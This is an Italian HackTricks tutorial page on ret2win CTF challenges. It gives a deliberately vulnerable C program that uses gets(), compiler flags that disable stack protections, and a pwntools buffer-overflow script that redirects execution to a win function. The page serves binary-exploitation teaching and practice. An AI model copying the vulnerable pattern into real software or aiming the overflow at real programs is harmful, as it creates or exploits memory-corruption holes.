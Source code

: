 # Ret2win

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Le sfide **Ret2win** sono una categoria popolare nelle competizioni di **Capture The Flag (CTF)**, in particolare in compiti che coinvolgono **binary exploitation**. L'obiettivo è sfruttare una vulnerabilità in un dato binario per eseguire una funzione specifica, non invocata, all'interno del binario, spesso chiamata qualcosa come `win`, `flag`, ecc. Questa funzione, quando eseguita, di solito stampa un flag o un messaggio di successo. La sfida tipicamente comporta la sovrascrittura dell'**indirizzo di ritorno** nello stack per deviare il flusso di esecuzione verso la funzione desiderata. Ecco una spiegazione più dettagliata con esempi:

### C Example

Considera un semplice programma C con una vulnerabilità e una funzione `win` che intendiamo chiamare:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Per compilare questo programma senza protezioni dello stack e con **ASLR** disabilitato, puoi usare il seguente comando:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Compila il programma come un binario a 32 bit (questo è facoltativo ma comune nelle sfide CTF).
* `-fno-stack-protector`: Disabilita le protezioni contro gli overflow dello stack.
* `-z execstack`: Consenti l'esecuzione di codice nello stack.
* `-no-pie`: Disabilita l'eseguibile indipendente dalla posizione per garantire che l'indirizzo della funzione `win` non cambi.
* `-o vulnerable`: Nomina il file di output `vulnerable`.

### Python Exploit usando Pwntools

Per l'exploit, utilizzeremo **pwntools**, un potente framework CTF per scrivere exploit. Lo script di exploit creerà un payload per sovrascrivere il buffer e sovrascrivere l'indirizzo di ritorno con l'indirizzo della funzione `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Per trovare l'indirizzo della funzione `win`, puoi utilizzare **gdb**, **objdump** o qualsiasi altro strumento che ti consenta di ispezionare i file binari. Ad esempio, con `objdump`, potresti usare:
```sh
objdump -d vulnerable | grep win
```
Questo comando ti mostrerà l'assembly della funzione `win`, incluso il suo indirizzo di partenza.&#x20;

Lo script Python invia un messaggio accuratamente progettato che, quando elaborato dalla `vulnerable_function`, fa traboccare il buffer e sovrascrive l'indirizzo di ritorno nello stack con l'indirizzo di `win`. Quando `vulnerable_function` restituisce, invece di tornare a `main` o uscire, salta a `win`, e il messaggio viene stampato.

## Protezioni

* [**PIE**](../../common-binary-protections-and-bypasses/pie/) **dovrebbe essere disabilitato** affinché l'indirizzo sia affidabile tra le esecuzioni o l'indirizzo in cui la funzione sarà memorizzata non sarà sempre lo stesso e avresti bisogno di qualche leak per capire dove è caricata la funzione win. In alcuni casi, quando la funzione che causa il trabocco è `read` o simile, puoi fare una **Sovrascrittura Parziale** di 1 o 2 byte per cambiare l'indirizzo di ritorno in modo che sia la funzione win. A causa di come funziona ASLR, gli ultimi tre nibble esadecimali non sono randomizzati, quindi c'è una **1/16 possibilità** (1 nibble) di ottenere l'indirizzo di ritorno corretto.
* [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) dovrebbero essere anch'essi disabilitati o l'indirizzo di ritorno EIP compromesso non sarà mai seguito.

## Altri esempi & Riferimenti

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32bit, no ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 bit con ASLR, con un leak dell'indirizzo bin
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 bit, no ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 bit, no ASLR, doppio piccolo overflow, primo per traboccare lo stack e ingrandire la dimensione del secondo overflow
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per sovrascrivere l'indirizzo `fflush` con la funzione win (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 bit, nx, nient'altro, sovrascrittura parziale di EIP (1Byte) per chiamare la funzione win
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 bit, nx, nient'altro, sovrascrittura parziale di EIP (1Byte) per chiamare la funzione win
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* Il programma sta solo convalidando l'ultimo byte di un numero per controllare la dimensione dell'input, quindi è possibile aggiungere qualsiasi dimensione purché l'ultimo byte sia all'interno dell'intervallo consentito. Poi, l'input crea un buffer overflow sfruttato con un ret2win.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 bit, relro, no canary, nx, pie. Sovrascrittura parziale per chiamare la funzione win (ret2win)
* [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
* arm64, PIE, fornisce un leak PIE la funzione win è in realtà 2 funzioni quindi gadget ROP che chiama 2 funzioni
* [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
* ARM64, off-by-one per chiamare una funzione win

## Esempio ARM64

{% content-ref url="ret2win-arm64.md" %}
[ret2win-arm64.md](ret2win-arm64.md)
{% endcontent-ref %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
